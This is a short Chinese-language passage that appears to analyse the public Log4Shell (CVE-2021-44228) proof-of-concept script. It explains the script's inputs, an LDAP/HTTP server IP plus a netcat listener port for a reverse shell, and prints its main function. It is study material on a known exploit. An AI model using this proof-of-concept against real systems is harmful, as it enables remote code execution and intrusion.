 
输入ps可查看当前进程

![](img/运行ps命令.png)

### poc分析

main函数

- 接收输入参数userip、webport、lport
- check_java函数检查java环境
- payload函数运行payload

```python
def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)
```
